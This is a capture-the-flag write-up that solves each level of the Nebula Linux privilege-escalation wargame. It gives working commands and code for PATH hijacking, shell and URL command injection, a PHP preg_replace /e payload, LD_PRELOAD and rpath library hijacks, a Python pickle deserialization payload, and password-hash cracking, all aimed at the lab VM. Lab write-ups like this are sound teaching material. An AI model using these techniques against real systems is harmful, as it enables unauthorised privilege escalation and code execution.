

# The Writeup for Nebula Level

## Introduction

This writeup is for Nebula level in [exploit-exercises.com] (https://exploit-exercises.com/nebula/).
Users can download a virtual disk file and setup a virtual machine to do exercises. The login user/password pair is nebula/nebula, which also contains the sudo permission. Regarding each level, users can apply levelXX/levelXX user/password pair to challenge each level.

Regarding the emulated screen is not friendly. We can setup ssh and login remotely. However, please generate RSA and DSA key pair firstly.

```
ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
ssh-keygen -t dsa -f /etc/ssh/ssh_host_dsa_key
service ssh restart
```   

Then ssh from your local terminal. The IP address depends on your Network configuration of Virtual Box. I chose NAT mode and set port forward.

```
ssh -p 1222 nebula@127.0.0.1
```

## Writeup

### Level00

Firstly, please login as level00 with the password of level00.

The mission is to find a Set User ID program that will run as the “flag00” account.

After check the manual of `find` command, the command is followed.
 
```
find / -perm -4000 -user flag00 > result.log
cat result.log
```

The aim program is `/rofs/bin/.../flag00` and the output is that `Congrats, now run getflag to get your flag!`

The fullpath of the flag program is `/bin/getflag`.

### Level01
The vulnerability of this level is about PATH variable in the environment. We can set current directory as PATH by command `env PATH=.`, then link `echo` to flag program.

The following shell script shows the exploit process.

```
ln -s /bin/getflag echo
env PATH=. /home/flag01/flag01
```

### Level02
The vulnerability of level02 is about shell command injection.

The following shell script will load flag program.

```
ln -s /bin/getflag x
env PATH=. USER='hacked; ./x' /home/flag02/flag02
```

### Level03
The vulnerability is about a writable crontab directory. The permission of `writable.d` is `0777`, which means any one is able to add a file in this directory. As any scripts in this directory will be executed by writable.sh, I just put a script to load flag program.

The content of the script is followed.

```
#!/bin/sh
/bin/getflag > /tmp/level03.log
``` 

After a short time (5 minutes), the script will be executed and the log file can be found.

### Level04
It is not a good practice that restricting access file based on filename, because soft link can be used to bypass such control.

```
ln -s /home/flag04/token x
/home/flag04/flag04 x
```

The output is `06508b5e-8909-4f38-b630-fdb148a848a2` .

### Level05
In the home of user level05, `.backup` directory can be read by others. `backup-19072011.tgz` is stored in this directory. I decompressed it and found private key for ssh.

The following ssh command will be used to login without password.

```
ssh -i ./id_rsa flag05@localhost
```

### Level06
The password of user `flag06` is followed UNIX style. The hash value is stored in `/etc/password`.

`flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`

The hash can be cracked by John the Ripper on Kali.

save user:hash into a file named test_pass.txt and apply this command to crack.

`john test_pass.txt `

The output shows the password is `hello`

```
root@kali:/tmp# john test_pass.txt 
Loaded 1 password hash (Traditional DES [128/128 BS SSE2-16])
hello            (flag06)
guesses: 1  time: 0:00:00:00 DONE (Mon Dec 21 12:18:25 2015)  c/s: 74200  trying: 123456 - thebest3
Use the "--show" option to display all of the cracked passwords reliably
```

### Level07
Command injection happened again.
This time, I changed network mode to bridge mode.

` curl -v "http://192.168.1.224:7007/index.cgi?Host=127.0.0.1+%3b+/bin/getflag"`

I inserted the second command after Host parameter.

### Level08
There is a pcap file in this level. I will use Wireshark to analyse the package file. 

The following snapshot image shows the password of flag08 is `backd00Rmate`



Please notice that 0x7f is DEL, which means delete previous key.

### Level09
The vulnerability is about `preg_replace()` in PHP.

The vulnerable line is followed.
```
$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
```

Before PHP extract email to spam function, there is chance to execute php function.

I created a file with content `[email ${${@exec(sh)}}]`

The following command will get a shell.

```
/home/flag09/flag09 ./test.txt 111
```

One interesting thing is that I failed to pass `/bin/getflag` because of special character `/`.

More study is needed about preg_replace vulnerability.

### Level10
The vulnerability is that the `access()` and the `open()` is based on filename. I can launch a TOCTOU attack (race condition attack). Firstly, establish a soft link to a file that user level10 has read permission. Secondly, change the soft link to flag file.

Launch a listener at host.
```
nc -l -k -n 192.168.1.88 18211
```

The feasible way to do a race condition attack is make `connect()` last longer.

One idea is to set `iptables` drop SYN|ACK from host for a short time. In this case, program of level10 will try to resent ACK package. Then I will change the soft link to token file. After re-configurating `iptables`, the TCP connection will be finished.

The commands for controlling iptables are followed.

```
# assumption client(flag10 program): 192.168.1.224, and server is 192.168.1.133

iptables -L --line-numbers

iptables -A OUTPUT --protocol tcp --tcp-flags ALL SYN,ACK --dst 192.168.1.224 -j DROP

iptables -L --line-numbers

iptables -D INPUT 1

```

Another idea is to apply raw socket programming on the server side to make a delay manually. 

They are just ideas. I only tried first method and succeeded.

The flag is followed.

`615a2ce1-b2b5-4c76-8eed-8aa5c4015c27`

### Level11
An logical vulnerability is in the level11.
The following encryption process is symmetric, which means decryption is the same.

```
void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}
```

If I input Content-Length as 1, the cipher is calculated as followed.`buffer[0]^=0x01`

I chose following input.

```
Content-Length: 1
B
```
The command will be `C` instead.

### Level12
The command injection shows again.
The vulnerability is in this line.
` prog = io.popen("echo "..password.." | sha1sum", "r")`

If I pass password as `4754a4f4bd5787accd33de887b9250a0691dd198 #`, the `#` will terminate the pipe command.

### Level13
The vulnerability is that access control based on `getuid()` can be bypassed through LD_PRELOAD.

Firstly, I compiled a fake getuid function into a shared library.
  
The Makefile is followed.

```
all:
	gcc -nostdlib -fpic  -shared getuid.c -o getuid.so
	

```
And the source code is followed.

```
#include <sys/types.h>

uid_t getuid(void){
	return 1000;
}
```

Secondly, The LD_PRELOAD technology cannot be used directly, since the set-user-ID mode is turned on at flag13 program. However, since the token exists in the program, I will copy the original program into another place, then use LD_PRELOAD technology.

```
cp /home/flag13/flag13 .
env  LD_PRELOAD=/tmp/level13/getuid.so ./flag13 
```

The program tells me that the token is `b705702b-76a8-42b0-8844-3adabbe5ac58`

### Level14
This level tries to challenge the decryption sense.
I first use number sequence, and then try alphabet sequence.

```
sh-4.2$ ./flag14 -e
012345678901234567890
02468:<>@B:<>@BDFHJLD

sh-4.2$ ./flag14 -e
abcdefghijklmnopqrstuvwxyz
acegikmoqsuwy{}??????????$
```

I found the encryption code is that

```
void encrypt(char* str){
	int i=0;
	while (str[i]){
		str[i]=str[i]+i;
	}
}
```

According to the encryption code, the decryption code is that

```
#include <stdio.h>

void decrypt(char* str){
	int i=0;
	while (str[i]){
		str[i] = str[i]-i;
		i++;
	}
}
int main(){
	char code[]="857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.";
	decrypt(code);
	printf("%s\n",code);
}
```

The output shows 
`8457c118-887c-4e40-a5a6-33a25353165`

### Level15
The vulnerability is that rpath, which is a hard-coded value in an executable file, is writable for attackers.

The following command shows rpath of a elf file.

```
sh-4.2$ readelf -d  ./flag15 

Dynamic section at offset 0xf20 contains 21 entries:
  Tag        Type                         Name/Value
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
 0x0000000c (INIT)                       0x80482c0
```

If I put libc.so.6 in the path `/var/tmp/flag15`, the elf will load a modified shared library.

I will use nm to check which function could be used for injection malicious code.

```
sh-4.2$ nm ./flag15 | grep U
         U __libc_start_main@@GLIBC_2.0
         U puts@@GLIBC_2.0
```

I tried these two functions. However, only __libc_start_main succeeded.

The content of Makefile.

```
all:
	gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 hook.c
```

The content of hook.c

```
#include <stdio.h>
#include <stdlib.h>

int __libc_start_main(int (*main) (int, char **, char **), 
int argc, char *argv, void (*init) (void), void (*fini) 
(void), void (*rtld_fini) (void), void *stack_end) {
	system("/bin/getflag > /tmp/level15.log");	
}
```

The content of version.

```
GLIBC_2.0{
};
```

Finally, run command `/home/flag15/flag15`. The fog file shows the program was hacked.

```
sh-4.2$ cat /tmp/level15.log 
You have successfully executed getflag on a target account
```

### Level16
The command injection is in the perl script.
The vulnerable code is followed.

```
sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/; # conver to uppercase
  $username =~ s/\s.*//;        # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
      ($usr, $pw) = split(/:/, $line);
  

      if($pw =~ $password) {
          return 1;
      }
  }

  return 0;
}
```

Logically, $username will be converted to UPPERCASE. I will use `/*/X` to replace `/tmp/X`.

The url is followed.

`http://192.168.1.224:1616/index.cgi?username=1`/*/X`%20#&password=1`

And the content of X.

```
#!/bin/sh

echo hacked
/bin/getflag >> /tmp/level16.log
```

### Level17
Pickle is a module in python, but it is not secure.
[anapickle] (https://github.com/sensepost/anapickle) provides a very good tools to generate shellcode in pickle format.

Following python code will generate pickle shellcode.

```
#!/usr/bin/env python

import pickle
import os
import subprocess

class MyShellCode(object):
    def __reduce__(self):
        return (subprocess.Popen,(('/bin/getflag > /tmp/level17.log',),0,None,None,None,None,None,False,True,None,None,False,None,0))

shellcode=pickle.dumps(MyShellCode())

print(shellcode)
#test
#pickle.loads(shellcode)
```

The shellcode is followed.

```
csubprocess
Popen
p0
((S'/bin/getflag > /tmp/level17.log'
p1
tp2
I0
NNNNNI00
I01
NNI00
NI0
tp3
Rp4
.
```

### Level18
This level is a little bit complex.
Firstly, there is a logical problem in login function.

```
void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;       
  }
  dprintf("logged in successfully (with%s password file)\n",
      fp == NULL ? "out" : "");
  
  globals.loggedin = 1;

}
``` 

If fopen fails, user will also login sucessfully. Open files configuration in ulimit will be used to limit the maximum number of files that open progress can open.

```
sh-4.2$ ulimit -a
open files                      (-n) 1024
```

One way is to use `ulimit -n 5` to reduce the open files. Another way is to call login several times until the program cannot open more files.

Secondly, the `shell` command is to use `execve("/bin/sh", argv, envp);`. However, the argv is about this form `['/home/flag18/flag18','-d', '/tmp/level18/run.log']`, which means two things. One is that `/bin/sh` will load `flag18` again. The other is that the elf file should be read again. Some file handles should be closed before the elf file is read by OS. The attack input is like the following form.

```
login AAA
login AAA
login AAA
...
closelog
shell
```

Then the next mission is how to load malicious action when the elf is executed again.

There is a parameter for `/bin/sh`. `--init-file` will be executed before the content of program is executed.

After I tried following command, which is `python ex.py | /home/flag18/flag18 --rcfile -d /tmp/level18/run.log
`

The content of ex.py

```
#!/usr/bin/env python

out="login AAA\n"*1024+"closelog\n"+"shell"
print(out)
``` 

The following error is shown.

```
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
/tmp/level18/run.log: line 1: Starting: command not found
/tmp/level18/run.log: line 2: syntax error near unexpected token `('
/tmp/level18/run.log: line 2: `logged in successfully (without password file)'
```

I found the `/bin/sh` considers the run.log as the init-file.

The final mission is to load Starting. I put current path into the PATH. And write the Starting file.

```
#!/bin/sh

echo hacked
/bin/getflag
```

### Level19
There is a fact that the parent process id of a daemon process is 0.

I modified a sample `Fork off and die` source code to bypass this logical obstacle.

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
   int pid = fork();
   if(pid < 0) 
   {
      fprintf(stderr, "Can't fork.");
      exit(1);
   }
   else if(pid == 0) // we are the child
   {
      printf("pid=%d,ppid=%d\n",getpid(),getppid());
      setsid(); // "release" from the parent
      int pid2 = fork();
      if (pid2 < 0) fprintf(stderr, "Can't fork after releasing.\n");
      else if (pid2 > 0) exit(0); // we are the parent
      else {
         // We are now completely free and running under init.
         // We have to close the inherited stream descriptors to avoid deadlocks and the like.
	 printf("pid=%d,ppid=%d\n",getpid(),getppid());
  	 char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
	 execve("/home/flag19/flag19",args,NULL);
      }
   }
   else //we are the parent
   {
      exit(0);
   }
}
```

But one more question, why fork twice in daemon?
A quick answer is that this code prevents zombie processes.

## Conclusion
In conclusion, this is a basic level of CTF practice. I need review the Advanced Programming in the UNIX Environment (APUE). I am not familiar with perl. Link process is another knowledge that I need learn.

## Reference
1. [Cracking Nebula Part 1] (http://unlogic.co.uk/2014/06/24/cracking-nebula-part1/)
2. [Cracking Nebula Part 2] (http://unlogic.co.uk/2014/07/02/cracking-nebula-part2/)
3. [Version Script] (http://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_25.html)
4. [Exploiting Misuse of Python's "Pickle"] (https://blog.nelhage.com/2011/03/exploiting-pickle/)
5. [Fork off and die] (http://wiki.linuxquestions.org/wiki/Fork_off_and_die)